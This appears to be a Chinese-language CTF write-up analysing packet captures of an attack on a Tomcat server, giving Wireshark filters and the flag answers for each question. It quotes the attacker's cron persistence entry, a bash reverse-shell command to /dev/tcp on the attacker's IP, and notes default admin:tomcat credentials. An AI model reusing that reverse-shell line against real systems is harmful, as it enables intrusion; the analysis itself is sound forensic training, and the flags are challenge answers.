 # 第六章-流量特征分析-常见攻击事件Tomcat

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```  
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}  
2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}  
3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}  
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}  
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}  
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}  
7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息  
```  
## 0x01  
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,**通过分析扫描的行为后提交攻击者IP**  
过滤一下`http`请求，在按照`Source`排序`http.request==1`  
可以看到`14.0.0.120`这个ip请求次数很多，而且很多都是可疑请求，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041916714.png)
`flag{14.0.0.120}`  
2、找到攻击者IP后请通过技术手段确定其所在地址  
`ip138`查询`ip`地址  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041918206.png)
`flag{guangzhou}`  
3、哪一个端口提供对web服务器管理面板的访问？  
可以看到黑客一直在爆破`8080`端口  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041920164.png)
所以`8080`端口便是`tomcat`的管理面板  
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？  
随便点了几个黑客扫描的请求，发现其`User-Agent`中存在请求头  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041922432.png)
`flag{gobuster}`  
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？  
黑客在爆破`tomcat`的管理面板，这里过滤请求  
`http.request.uri==&#34;/manager/html&#34; || http.response == 1`  
再按照时间排序  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041923193.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041924278.png)
`YWRtaW46dG9tY2F0`解密得到`admin:tomcat`  
`flag{admin-tomcat}`  
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？  
看到了请求`/upload`目录  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041927247.png)
发送了一个`JXQOZY.war`文件  
`flag{JXQOZY.war}`  
8、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？  
题目描述是维权，所以搜索一下关键信息`/bin`  
`tcp contains &#34;/bin&#34;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041955338.png)
可以看到是定时任务进行了权限维持  
`flag{/bin/bash -c &#39;bash -i &gt;&amp; /dev/tcp/14.0.0.120/443 0&gt;&amp;1&#39;}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E5%88%86%E6%9E%90-%E5%B8%B8%E8%A7%81%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6-tomcat/  

